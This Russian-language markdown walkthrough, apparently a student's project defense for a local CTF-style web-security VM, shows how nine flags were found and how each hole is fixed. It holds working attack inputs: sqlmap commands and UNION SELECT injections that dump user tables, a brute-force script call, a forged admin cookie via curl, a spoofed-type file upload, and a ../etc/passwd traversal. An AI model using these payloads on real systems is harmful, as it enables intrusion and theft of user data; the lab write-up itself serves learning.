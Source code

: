 | [README](README.md) | [subject](sublect_ru.md) | [How to start a web server](howTo.md) | defense |
|-|-|-|-|

#Защита проекта

Запускаем ВМ, получаем на экране IP адрес запущенного сервера. 

<img width="1200" alt="Screen Shot 2022-11-11 at 11 16 21" src="https://user-images.githubusercontent.com/84193980/201297810-9f5e8917-2f55-4ee0-96ad-2d347395af7f.png">

На Маке в браузере вводим этот адрес:

<img width="1276" alt="Screen Shot 2022-11-11 at 11 23 36" src="https://user-images.githubusercontent.com/84193980/201297804-96514ae7-6e1f-46de-b987-7e2d2c776cee.png">

<details><summary>01. Brute force данных для входа</summary>

| Найдено на странице | http://192.168.56.3/?page=signin |
|-|-|

[The main source of information](https://owasp.org)

<details><summary>Что такое `Brute force` и как обнаружено</summary>
  
![44-BruteForce](https://user-images.githubusercontent.com/84193980/201331815-afabace6-0df6-4de6-83cf-549b7577436b.jpeg)

`Brute force` использует метод проб и ошибок, чтобы угадать данные для входа, ключи шифрования или найти скрытую веб-страницу. Хакеры перебирают все возможные комбинации, надеясь угадать правильно.

Это старый метод атаки, но он по-прежнему эффективен и популярен среди хакеров. Потому что в зависимости от длины и сложности пароля его взлом может занять от нескольких секунд до многих лет.

## Как обнаружено ##

На вышеуказанной странице мы можем ввести логин и пароль. 
  
 <img width="1169" alt="Screen Shot 2022-11-11 at 14 36 53" src="https://user-images.githubusercontent.com/84193980/201332789-dce4b467-d603-40db-897b-82bceeffb68f.png">
 
Когда мы вводим неправильный пароль, мы видим, что веб-страница перенаправляет на следующую страницу, на которой есть очень специфическое изображение images/WrongAnswer.gif:

<img width="1904" alt="Screen Shot 2022-11-11 at 14 35 05" src="https://user-images.githubusercontent.com/84193980/201332820-9375ec69-2e0b-4a86-b11c-2f21fc528212.png">
 
Мы можем использовать это для `Brute force` процесса входа в систему.

Для этого из [OWASP SecLists](https://github.com/danielmiessler/SecLists) используем наиболее часто используемые [имена пользователей](https://github.com/danielmiessler/SecLists/blob/master/Usernames/top-usernames-shortlist.txt) и [паролей](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt)

Используя простой скрипт, мы можем попробовать каждую комбинацию наиболее часто используемых паролей и имен пользователей, и если мы не видим изображение «WrongAnswer.gif» на экране, то это означает, что мы успешно вошли в систему!

В папке Ressources выполнить следующую команду, по запросу ввести 192.168.56.3 (можно просто Enter):
```
python3 bf_login.py
```

</details>

Брутфорсом получены следующие пароли:

<img width="581" alt="Screen Shot 2022-11-13 at 07 06 55" src="https://user-images.githubusercontent.com/84193980/201506871-5f672d26-6b82-41d6-813d-01639bbe05ff.png">

Заходим по адресу: http://192.168.56.3/?page=signin, вводим логин и пароль. Наслаждаемся!

### Как исправить:
- Используйте более надежное имя пользователя и пароль
- Brute force detection tools
- Captcha
- Анализ и блокировка поступающих запросов:
	- Извлечение необходимых для принятия решений данных (IP, URL, ARGS, BODY);
	- Фильтрация полученных данных с исключением нецелевых URI для уменьшения количества ложных срабатываний;
	- Выбор запросов с одного адреса на конкретный URI по мере их близости или запросов со всех адресов на конкретный URI (для выявления распределенных атак методом перебора) в рамках определенного временного окна;
	- Блокирование источника(ов) атаки при превышении пороговых значений.

----

</details>

<details><summary>02. Атака с внедрением SQL на странице поиска пользователя</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=member |
|-|-|

[SQL injection](https://www.owasp.org/index.php/SQL_Injection)

<details><summary>Что такое `Атака с внедрением SQL` и как обнаружено</summary>

## Обзор ##
Атака с внедрением SQL состоит во вставке или «внедрении» SQL-запроса через входные данные от клиента к приложению. Успешный эксплойт SQL-инъекции может считывать конфиденциальные данные из базы данных, изменять данные базы данных (вставлять/обновлять/удалять), выполнять административные операции в базе данных (например, отключение СУБД), восстанавливать содержимое заданного файла, присутствующего в файле СУБД. систему и в некоторых случаях отдавать команды операционной системе. Атаки с внедрением SQL — это тип атаки с внедрением, при котором команды SQL вводятся во входные данные плоскости данных, чтобы повлиять на выполнение предопределенных команд SQL.

## Моделирование угроз ##
- Атаки с внедрением SQL позволяют злоумышленникам подделывать личность, вмешиваться в существующие данные, вызывать проблемы отказа, такие как аннулирование транзакций или изменение баланса, обеспечивать полное раскрытие всех данных в системе, уничтожать данные или делать их недоступными иным образом, а также становиться администраторами сервер базы данных.
- Внедрение SQL очень распространено в приложениях PHP и ASP из-за преобладания старых функциональных интерфейсов. Из-за характера доступных программных интерфейсов приложения J2EE и ASP.NET с меньшей вероятностью могут легко использовать SQL-инъекции.
- Серьезность атак с внедрением SQL-кода ограничивается навыками и воображением злоумышленника и, в меньшей степени, контрмерами глубокой защиты, такими как подключения с низким уровнем привилегий к серверу базы данных и т. д. Как правило, SQL-инъекция считается серьезной угрозой.

## Описание ##
Атака с внедрением SQL происходит, когда:
- Непреднамеренные данные попадают в программу из ненадежного источника.
- Данные используются для динамического построения SQL-запроса.

## Основные последствия: ##
- Конфиденциальность: поскольку базы данных SQL обычно содержат конфиденциальные данные, потеря конфиденциальности является частой проблемой с уязвимостями SQL Injection.
- Аутентификация: если для проверки имен пользователей и паролей используются плохие SQL-команды, может оказаться возможным подключиться к системе от имени другого пользователя, ранее не знающего пароль.
- Авторизация: если информация об авторизации хранится в базе данных SQL, можно изменить эту информацию путем успешного использования уязвимости SQL Injection.
- Целостность: так же, как может быть возможно прочитать конфиденциальную информацию, также возможно внести изменения или даже удалить эту информацию с помощью атаки SQL Injection.

## Как обнаружено ##
- Метод 1. С помощью внешней программы sqlmap
	- Склонить
	```bash
	git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
	```
	- Выведем на экран список таблиц, для этого перейдём в папку программы и запустим:
	```bash
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --tables
	```
	
	<img width="581" alt="Screen Shot 2022-11-13 at 08 32 28" src="https://user-images.githubusercontent.com/84193980/201508174-f1d52c4f-63be-47d0-aa58-e2881de979d0.png">
	
	- Выведем дамп таблицы users:
	```
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --dump -T users
	```
	<img width="2010" alt="Screen Shot 2022-11-12 at 13 30 10" src="https://user-images.githubusercontent.com/84193980/201477756-53d0b759-bbe1-4e0e-9c3f-ffdefdb32913.png">

		Decrypt this password -> then lower all the char. Sh256 on it and it's good ! 
		key: 5ff9d0165b4f92b14994e5c685cdce28 
		oter keys:
		2b3366bcfd44f540e630d4dc2b9b06d9
		60e9032c586fb422e2c16dee6286cf10 (oktoberfest)
		e083b24a01c483437bcf4a9eea7c1b4d 

- Метод 2. Через поле ввода страницы сайта.

	- Если оставить поле ввода пустым и нажать Enter, то мы получим:
	```
	You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '' at line 1
	```

	Значит, используется MariaDB

	Ввести в поле ввода:

	```
	1 UNION SELECT table_name, column_name FROM information_schema.columns
	```

	Посмотрим на поля таблицы users: user_id, first_name, last_name, town, ountry, planet, Commentaire, countersign

	Что бы посмотреть все данные пользователей:
	```
	1 OR 1=2 UNION SELECT user_id, CONCAT(first_name, last_name, town, country, planet, Commentaire, countersign) FROM users
	```
	<img width="922" alt="Screen Shot 2022-11-12 at 16 59 20" src="https://user-images.githubusercontent.com/84193980/201477846-0f12c5e8-c33f-41dc-a94e-1755141cab9d.png">

	или

	В папке Ressources (default address 192.168.56.3, можно просто Enter):
	```
	chmod 777 get_page-user.sh
	./get_page-user.sh
	```
	<img width="1560" alt="Screen Shot 2022-11-12 at 16 24 55" src="https://user-images.githubusercontent.com/84193980/201477797-c91bba96-6d18-4aab-81f4-6d212cff7c24.png">

- Нас интересует пользователь, в Surname которого указано "Decrypt this password"

</details>

Полученный ключ: 5ff9d0165b4f92b14994e5c685cdce28

Нам надо сделать: Decrypt this password -> then lower all the char. Sh256 on it and it's good ! 

Вспомним данные, полученные ранее:

<img width="2010" alt="Screen Shot 2022-11-12 at 13 30 10" src="https://user-images.githubusercontent.com/84193980/201477756-53d0b759-bbe1-4e0e-9c3f-ffdefdb32913.png">

MD5 hash oktoberfest это 60e9032c586fb422e2c16dee6286cf10

По аналогии [Конвертируем MD5 hash нашего ключа](https://md5.gromweb.com/?md5=5ff9d0165b4f92b14994e5c685cdce28): FortyTwo

lower all the char: fortytwo

[sh256](https://crypt-online.ru/crypts/sha256/): 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

### Как исправить:
- предварительно обработать параметры SQL-запроса, в том числе привести к целочисленному типу, экранировать значения, подготовленные значения (https://htmlacademy.ru/tutorial/php/sql-injections)

----

</details>

<details><summary>03. Атака с внедрением SQL на странице поиска картинки</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=searchimg |
|-|-|

<details><summary>Что такое `Атака с внедрением SQL на странице поиска картинки` и как обнаружено</summary>

## Обзор ##
Атака с внедрением SQL состоит во вставке или «внедрении» SQL-запроса через входные данные от клиента к приложению. Успешный эксплойт SQL-инъекции может считывать конфиденциальные данные из базы данных, изменять данные базы данных (вставлять/обновлять/удалять), выполнять административные операции в базе данных (например, отключение СУБД), восстанавливать содержимое заданного файла, присутствующего в файле СУБД. систему и в некоторых случаях отдавать команды операционной системе. Атаки с внедрением SQL — это тип атаки с внедрением, при котором команды SQL вводятся во входные данные плоскости данных, чтобы повлиять на выполнение предопределенных команд SQL.

## Моделирование угроз ##
- Атаки с внедрением SQL позволяют злоумышленникам подделывать личность, вмешиваться в существующие данные, вызывать проблемы отказа, такие как аннулирование транзакций или изменение баланса, обеспечивать полное раскрытие всех данных в системе, уничтожать данные или делать их недоступными иным образом, а также становиться администраторами сервер базы данных.
- Внедрение SQL очень распространено в приложениях PHP и ASP из-за преобладания старых функциональных интерфейсов. Из-за характера доступных программных интерфейсов приложения J2EE и ASP.NET с меньшей вероятностью могут легко использовать SQL-инъекции.
- Серьезность атак с внедрением SQL-кода ограничивается навыками и воображением злоумышленника и, в меньшей степени, контрмерами глубокой защиты, такими как подключения с низким уровнем привилегий к серверу базы данных и т. д. Как правило, SQL-инъекция считается серьезной угрозой.

## Описание ##
Атака с внедрением SQL происходит, когда:
- Непреднамеренные данные попадают в программу из ненадежного источника.
- Данные используются для динамического построения SQL-запроса.

## Основные последствия: ##
- Конфиденциальность: поскольку базы данных SQL обычно содержат конфиденциальные данные, потеря конфиденциальности является частой проблемой с уязвимостями SQL Injection.
- Аутентификация: если для проверки имен пользователей и паролей используются плохие SQL-команды, может оказаться возможным подключиться к системе от имени другого пользователя, ранее не знающего пароль.
- Авторизация: если информация об авторизации хранится в базе данных SQL, можно изменить эту информацию путем успешного использования уязвимости SQL Injection.
- Целостность: так же, как может быть возможно прочитать конфиденциальную информацию, также возможно внести изменения или даже удалить эту информацию с помощью атаки SQL Injection.

## Как обнаружено ##
- С помощью внешней программы sqlmap
	- Склонить
	```bash
	git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
	```
	- Выведем на экран список таблиц, для этого перейдём в папку программы и запустим:
	```bash
	python3 sqlmap.py -u http://192.168.56.3/index.php\?page\=member\&id\=1\&Submit\=Submit\# --tables
	```
	
	<img width="581" alt="Screen Shot 2022-11-13 at 08 32 28" src="https://user-images.githubusercontent.com/84193980/201508174-f1d52c4f-63be-47d0-aa58-e2881de979d0.png">

	Нас интересует таблица list_images

- Через поле ввода страницы сайта.

	Ввести в поле ввода:
	```
	1 OR 1=1 UNION SELECT NULL, NULL--
	```

	Значит, имеется 2 колонки

	Ввести в поле ввода:

	```
	1 UNION SELECT table_name, column_name FROM information_schema.columns
	```

	Посмотрим на поля таблицы list_images: id, url, title, comment

	Что бы посмотреть все данные всех картинок:
	```
	1 OR 1=2 UNION SELECT id, CONCAT(url, title, comment) FROM list_images
	```

	<img width="1080" alt="Screen Shot 2022-11-13 at 08 45 05" src="https://user-images.githubusercontent.com/84193980/201508206-c0769387-7568-41ea-8410-47080f3b4df4.png">

	В данных последней картинки находим:
		Title: borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

	или

	В папке Ressources (default address 192.168.56.3, можно просто Enter):
	```
	./get_page-pic.sh
	```
	
	<img width="1011" alt="Screen Shot 2022-11-13 at 08 53 05" src="https://user-images.githubusercontent.com/84193980/201508219-a9de4b5f-89bd-49b0-bb29-21a4d41a4d54.png">

- Нас интересует картинка, у которой "Title: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"

</details>

ключ: 1928e8083cf461a51303633093573c46

По аналогии с предыдущей инъекцией:

[Конвертируем MD5 hash нашего ключа](https://md5.gromweb.com/?md5=1928e8083cf461a51303633093573c46): albatroz

lower all the char: albatroz

[sh256](https://crypt-online.ru/crypts/sha256/): f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188


### Как исправить:
- предварительно обработать параметры SQL-запроса, в том числе привести к целочисленному типу, экранировать значения, подготовленные значения (https://htmlacademy.ru/tutorial/php/sql-injections)

----

</details>

<details><summary>04. Непроверенные переадресации и пересылки</summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `Непроверенные переадресации и пересылки` и как обнаружено</summary>

https://habr.com/ru/company/otus/blog/511428/

Одной из наиболее распространенных и тем не менее игнорируемых веб-разработчиками уязвимостей является Open Redirect (также известная как «Непроверенные переадресации и пересылки»). Веб-сайт считается уязвимым для Open Redirect, если значения параметра (часть URL-адреса после «?») в HTTP GET-запросе позволяет перенаправить пользователя на новый сайт без проверки целевого сайта. В зависимости от архитектуры уязвимого сайта, перенаправление может произойти после определённых действий, таких как вход в систему, а иногда это может произойти мгновенно при загрузке страницы.

Пример уязвимой ссылки выглядит примерно так: www.example.com/login.html?RelayState=http%3A%2F%2Fexample.com%2Fnext

В этом примере параметр «RelayState» указывает куда нужно перенаправить пользователя после успешного входа в систему (в нашем примере это example.com/next). Если сайт не проверяет значение параметра «RelayState» на предмет легитимности и безопасности, то злоумышленник может воспользоваться этим параметром, чтобы перенаправить жертву на фейковую страницу, созданную самим злоумышленником: www.example.com/login.html?RelayState=http%3A%2F%2FEvilWebsite.com

Перенаправление на разные сайты социальных сетей в нижней части веб-сайта не подтверждено. Открытые перенаправления не являются критическими непосредственно для самого сайта и не позволяют злоумышленнику украсть данные, принадлежащие владельцу сайта, но представляют большую опасность для пользователя сайта. Жертва может не заметить, что в середине длинного URL-адреса есть параметры, которые манипулируют и изменяют конечную точку.

## Как обнаружено ##

В Chrome в нижней части экрана (footer, где значок Facebook) нажать правой кнопкой мыши -> Inspect -> Edit attribute -> Изменить адрес (добавить что-либо)

Теперь, нажав на значок Facebook получаем страницу с ключом

</details>

<img width="963" alt="Screen Shot 2022-11-13 at 10 07 09" src="https://user-images.githubusercontent.com/84193980/201510524-675934ca-98fa-4e5c-81ab-9fec8749a526.png">

### Как исправить:
- Лучший способ избежать уязвимости Open Redirect – это избегать перенаправления по параметру, зависящему от пользователя или приходящего через GET-запрос. Если перенаправление неизбежно, с ним можно совладать, проверив конечный сайт и очистив его репутацию с помощью белого списка подтвержденных URL-адресов.

----

</details>

<details><summary>05. Незащищенная электронная почта для восстановления</summary>

| Найдено на странице | http://192.168.56.3/?page=recover |
|-|-|

<details><summary>Что такое `Незащищенная электронная почта для восстановления` и как обнаружено</summary>

Если злоумышленник изменит адрес электронной почты в этом поле, тогда забытый пароль (или процедура восстановления) может быть отправлен на его собственный адрес электронной почты. Это может позволить ему восстанавливать пароли от пользователей веб-сайта.

## Как обнаружено ##

В Chrome на вышеуказанной странице в районе кнопки Submit нажать правой кнопкой мыши -> Inspect -> Edit attribute -> Изменить адрес электронной почты (добавить что-либо)
	
<img width="1397" alt="Screen Shot 2022-11-13 at 13 45 48" src="https://user-images.githubusercontent.com/84193980/201518128-aa9869e2-617a-44de-8896-3c7aadda86db.png">

Теперь, нажав на кнопку Submit получаем страницу с флагом
	
<img width="906" alt="Screen Shot 2022-11-13 at 13 43 03" src="https://user-images.githubusercontent.com/84193980/201518137-6534e19e-e753-4935-87a2-4b3d270593a6.png">

</details>

THE FLAG IS : 1D4855F7337C0C14B6F44946872C4EB33853F40B2D54393FBE94F49F1E19BBB0

### Как исправить:
- Вместо того, чтобы отправлять запрос на адрес электронной почты администратора, мы можем просто использовать поле ввода с адресом электронной почты пользователя.

----

</details>

<details><summary>06. Незащищенная страница опроса</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=survey |
|-|-|

<details><summary>Что такое `Незащищенная страница опроса` и как обнаружено</summary>

У пользователя становится возможным "накрутка голосования"

## Как обнаружено ##

На вышеуказанной странице в районе первой ячейки Grade нажать правой кнопкой мыши -> Inspect -> Edit attribute -> Изменить значение, отличное от 1 (добавить что-либо)
	
<img width="1692" alt="Screen Shot 2022-11-13 at 14 12 34" src="https://user-images.githubusercontent.com/84193980/201519332-230127a4-5836-425c-bd77-5bf7a72ad2e1.png">

Теперь при выборе в таблице изменённого значения получим флаг:
	
<img width="891" alt="Screen Shot 2022-11-13 at 14 11 47" src="https://user-images.githubusercontent.com/84193980/201519329-6761f8be-b798-45d5-a535-170a7a7faef4.png">

</details>

THE FLAG IS 03A944B434D5BAFF05F46C4BEDE5792551A2595574BCAFC9A6E25F67C382CCAA

### Как исправить:
- Стратегии проверки данных (принятие заведомо хороших, отклонение заведомо плохих, санация)

----

</details>

<details><summary>07. Неограниченная загрузка файлов</summary>

| Найдено на странице | http://192.168.56.3/index.php?page=upload |
|-|-|

<details><summary>Что такое `Неограниченная загрузка файлов` и как обнаружено</summary>

[Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)

Загруженные файлы представляют значительный риск для приложений. Первым шагом во многих атаках является передача некоторого кода в атакуемую систему. Тогда атаке нужно только найти способ выполнить код. Использование загрузки файла помогает злоумышленнику выполнить первый шаг.

Последствия неограниченной загрузки файлов могут быть разными, включая полный захват системы, перегрузку файловой системы или базы данных, перенаправление атак на серверные системы, атаки на стороне клиента или простое искажение. Это зависит от того, что приложение делает с загруженным файлом и особенно от того, где он хранится.

## Как обнаружено ##

Если попытаться загрузить файл "php", то это не сработает. Когда мы загружаем файл php, наш браузер отправляет в заголовках HTTP «content-type», который является «application/octet-stream» для файла php и «image/jpeg» для файла jpeg.

Вышеуказанная страница заточена ТОЛЬКО для приёма изображений. НО! На этом сайте бэкенд не проверяет тип файла, поэтому при загрузке любого типа файла сайт примет его. В следующем скрипте мы делаем так, чтобы наш файл выглядел так, как будто мы отправляем изображение.

Перейти в теминале папку Ressources и там выполнить:
```bash
curl -X POST -H 'Content-Type: multipart/form-data' -F 'Upload=send' -F 'uploaded=@1.test;type=image/jpeg' http://192.168.56.3/index.php\?page\=upload\# | grep "flag"
```
<img width="1240" alt="Screen Shot 2022-11-13 at 12 57 05" src="https://user-images.githubusercontent.com/84193980/201516949-7816f45b-e148-4925-93a5-e3e34cf495a3.png">

</details>

The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

### Как исправить:
- Вы должны перепроверить тип файла и никогда не доверять пользователю.

----

</details>

<details><summary>08. Небезопасные файлы cookie администратора</summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `Небезопасные файлы cookie администратора` и как обнаружено</summary>

Перехват сеанса (перехват файлов cookie) — это использование действительного компьютерного сеанса (сеансового ключа) для получения несанкционированного доступа к информации или услугам в компьютерной системе. В частности, он используется для обозначения кражи волшебного файла cookie, используемого для аутентификации пользователя на удаленном сервере.

### Что такое файлы cookie?

Файлы cookie — это файлы, которые веб-сайты записывают локально на ваш компьютер.
У них есть несколько применений: отслеживание клиентов, безопасная идентификация пользователя/администратора или запись пользовательских данных.
Эти данные передаются в конце заголовков HTTP в следующем виде:
Cookie: Cookie_name_1=cookie_value1; Cookie_name_2=cookie_value2 и т. д.

Как правило, многие сайты хранят файл cookie SESSID, который является переменной идентификации вашего сайта.
Файл cookie SESSID позволяет защитить аутентификацию
(сервер ведет локальную запись используемых сеансов SESSID и связанных с ними данных, таких как входы в систему).

## Как обнаружено ##

- Откройте браузер Chrome на компьютере.
- В правом верхнем углу экрана нажмите на значок с тремя точками Настройки (Settings).
- Выберите Конфиденциальность и безопасность (Privacy and security) -> Файлы cookie и другие данные сайтов (Cookies and other site data).
- Выберите See all cookies and site data
- Выберите свой сайт 192.168.56.3
	
<img width="693" alt="Screen Shot 2022-11-13 at 14 55 17" src="https://user-images.githubusercontent.com/84193980/201521836-743c6c84-ef7d-4c5f-8633-616879b4fcc1.png">

В указанном файле cookie есть поле 
	Content 68934a3e9455fa72420237eb05902327

[Конвертируем MD5 нашего поля](https://md5.gromweb.com/?md5=68934a3e9455fa72420237eb05902327): false

Попробуем получить MD5 hash of "true" и заменить значение этого поля в cookie

[MD5 hash "true"](https://md5.gromweb.com/?string=true): b326b5062b2f0e69046810717534cb09

Перейти в терминале в папку Ressources и выполнить

```
curl -s --cookie 'I_am_admin=b326b5062b2f0e69046810717534cb09' 'http://192.168.56.3' -o flag.html
open flag.html
```

или

В папке Ressources (default address 192.168.56.3, можно просто Enter):
```
chmod 777 get_flag.sh
./get_flag.sh
```
	
<img width="481" alt="Screen Shot 2022-11-13 at 15 16 09" src="https://user-images.githubusercontent.com/84193980/201521860-2291d9fb-3de0-4c93-94cf-1c24371a3291.png">

</details>

Good job! Flag : df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3

### Как исправить:
- Никогда не доверяйте содержимому файлов cookie для конфиденциальных операций, не используйте алгоритм MD5 для шифрования данных и используйте более безопасный алгоритм, такой как bcrypt.

----

</details>

<details><summary>09. Обход каталога или обход пути</summary>

| Найдено на странице | http://192.168.56.3/?page=../../../../../../../etc/passwd |
|-|-|

<details><summary>Что такое `Обход каталога` и как обнаружено</summary>

Все веб-сайты построены одинаково, и все веб-сайты, работающие в UNIX, содержат папку: /etc/passwd

`/etc/passwd` — это текстовый файл, содержащий атрибуты каждого пользователя или учетной записи на компьютере под управлением Linux или другой Unix-подобной операционной системы.

Разрешения для `/etc/passwd` установлены по умолчанию, так что он может быть прочитан любым пользователем в системе.

## Как обнаружено ##

Мы попытаемся найти эту папку, поднявшись по древовидной структуре нашего веб-сайта, добавив «../» к запрошенному URL-адресу.

Добавив `/?page=../` к нашему URL-адресу и благодаря индексам, отображаемым на сайте при каждой попытке, нам удалось вернуться к файлу `/etc/passwd`.

В браузере:

<img width="906" alt="Screen Shot 2022-11-14 at 06 47 04" src="https://user-images.githubusercontent.com/84193980/201572544-32e5db20-ccd3-40e4-b5f0-a8370b7c81e3.png">

</details>

The flag is : b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 

### Как исправить:
- Чтобы защититься от этого типа недостатков, необходимо правильно настроить веб-сервер, чтобы пользователь не мог просматривать страницы, к которым у него не должно быть доступа.

----

</details>

<details><summary>10. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

## Как обнаружено ##

</details>



### Как исправить:
- 

----

</details>

<details><summary>11. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

## Как обнаружено ##

</details>



### Как исправить:
- 

----

</details>

<details><summary>12. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

## Как обнаружено ##

</details>



### Как исправить:
- 

----

</details>

<details><summary>13. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

## Как обнаружено ##

</details>



### Как исправить:
- 

----

</details>

<details><summary>14. </summary>

| Найдено на странице | http://192.168.56.3/ |
|-|-|

<details><summary>Что такое `` и как обнаружено</summary>

## Как обнаружено ##

</details>



### Как исправить:
- 

----

</details>


| [README](README.md) | [subject](sublect_ru.md) | [How to start a web server](howTo.md) | defense |
|-|-|-|-|
